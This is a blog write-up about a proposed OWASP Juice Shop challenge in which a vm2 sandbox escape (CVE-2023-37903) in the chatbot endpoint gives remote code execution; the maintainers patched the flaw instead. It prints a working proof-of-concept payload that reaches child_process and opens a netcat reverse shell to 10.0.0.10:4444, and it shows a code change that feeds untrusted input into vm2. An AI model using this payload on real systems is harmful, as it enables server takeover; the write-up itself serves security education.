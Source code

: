 # Escaping the Sandbox: A Dependency Vulnerability RCE in OWASP Juice Shop

OWASP Juice Shop is a deliberately insecure web application disguised as an online store. It's intentionally packed with vulnerabilities, giving you a safe playground to hack, learn, and practice fixing real-world security flaws.

Recently, a community member, [Masoud Abdaal](https://github.com/MasoudAbdaal), proposed a brand-new Juice Shop challenge that's both terrifying and brilliant: exploit a **real-world dependency vulnerability**. Because, let's be honest, sometimes it's not your code that betrays you, it's that one shady npm package you installed at 2 AM.

The relevant code lives in [OWASP Juice Shop Commit cc75b13](https://github.com/juice-shop/juice-shop/tree/cc75b136f311942be6c18b4e940ffa0d3fef6689) and its chatbot dependency, [Juicy Chat Bot Commit 705832f](https://github.com/juice-shop/juicy-chat-bot/tree/705832f8e39fdf83804939a8f420c598ee293b50)

---

## The Villain: vm2 Sandbox

Juice Shop uses [`vm2`](https://www.npmjs.com/package/vm2), a Node.js sandboxing library. Think of vm2 as the bouncer at a sketchy nightclub. It's supposed to keep the chaos contained. Unfortunately, vm2 has had a history of vulnerabilities that basically let attackers walk right past the velvet rope.

One particularly nasty one is **CVE-2023-37903**:

* **Type:** Sandbox escape
* **Impact:** Remote Code Execution (RCE)
* **Severity:** "Why is the server suddenly mining Dogecoin?"

This maps neatly to **CWE-94: Improper Control of Code Generation** and **OWASP A08: Software and Data Integrity Failures**. 

Translation? You can trick vm2 into letting you run whatever code you want, like convincing the bouncer to hand you the keys to the bar.

---

## Setting Juice Shop Up for Trouble

To make Juice Shop juicy enough for the challenge, Masoud suggested a tiny tweak to the chatbot code:

```js
// https://github.com/juice-shop/juicy-chat-bot/blob/705832f8e39fdf83804939a8f420c598ee293b50/index.js

async respond(query, token) {
  const response = (await this.factory.run(query))
}
```

This little adjustment pipes untrusted user input directly into vm2.

---

## The Attack Flow (a.k.a. How to Break Things Systematically)

The challenge could guide learners through the full arc of supply chain villainy:

1. **Generate an SBOM (Software Bill of Materials).** Think of it as a shopping list of everything your app depends on. Spoiler: it's usually longer than your weekend grocery list.
2. **Import into Dependency-Track (or similar).** This is where the tool goes "Hey, your project depends on something… yikes."
3. **Spot the Vulnerability (CVE-2023-37903).** Time to connect the dots between npm packages and potential chaos.
4. **Craft a Payload.** By abusing symbols and `inspect.constructor`, you sneak access to Node's `process` object.
5. **Achieve RCE.** At this point, you're running arbitrary commands on the server, celebratory confetti optional.

---

## The Exploit (Don't Try This at Home… Unless Home Is Juice Shop)

Masoud showed off a proof-of-concept payload against the chatbot's `/rest/chatbot/respond` endpoint. It looks scary, but in plain English it's saying:

"Hey vm2, why don't you let me peek behind the curtain, grab Node's `child_process`, and run some good old-fashioned shell commands?"

```json
{
    "action":"query",
    "query":"const customInspectSymbol = Symbol.for(\"nodejs.util.inspect.custom\");\r\n\r\nobj = {\r\n    [customInspectSymbol]: (depth, opt, inspect) => {\r\n        inspect.constructor(\"return process\")().mainModule.require(\"child_process\").execSync(\"nc.exe 10.0.0.10 4444 -e cmd.exe\");\r\n    },\r\n    valueOf: undefined,\r\n    constructor: undefined,\r\n}\r\n\r\nWebAssembly.compileStreaming(obj).catch(()=>{});"
}
```

Voila, you have a reverse shell on your server.

![Reverse Shell on Juice Shop](media/blog5/exploit.png)

---

## The Plot Twist: No Challenge After All

As exciting as this exploit sounded, the Juice Shop maintainers made the responsible call: instead of shipping a shiny new challenge, they patched the vulnerability.

And honestly, that's the right move. While it would've been a blast to hack away at a sandbox escape inside Juice Shop, leaving a live RCE lying around in an educational app would've been like teaching kids about fire safety by handing them a flamethrower. 

The good news? The patch keeps Juice Shop safe for learners while still leaving plenty of other vulnerabilities to explore. The bad news? We'll just have to dream of what could've been the most "explosive" Juice Shop challenge yet.

---

## Why This Matters

This challenge is more than just "hacking for fun." It drives home some uncomfortable truths:

* **Dependencies are your frenemy.** Your code might be flawless, but one vulnerable library and it's game over.
* **SBOMs are not optional.** If you don't know what's inside your app, you're basically running a mystery stew in production.
* **Exploitation bridges theory and reality.** Reading CVEs is good; actually exploiting one makes the lesson unforgettable.

---

## Takeaways

* Update your dependencies. Regularly. Religiously.
* Use SBOMs and tools like Dependency-Track, Snyk, or OWASP Dependency-Check.
* Don't blindly trust sandboxing libraries. Attackers treat them like escape rooms.
* And if you're learning? Juice Shop remains the safest place to break things without your boss calling you into a "serious meeting."

---

## Credit:

[MasoudAbdaal's GitHub Issue #2715](https://github.com/juice-shop/juice-shop/issues/2715)

[MasoudAbdaal's GitHub profile](https://github.com/MasoudAbdaal)

---

Follow me for more write-ups:
[X/Twitter](https://x.com/KAshSecurity) | [YouTube](https://www.youtube.com/@SecurityWithKAsh) | [GitHub](https://github.com/KAshSecurity)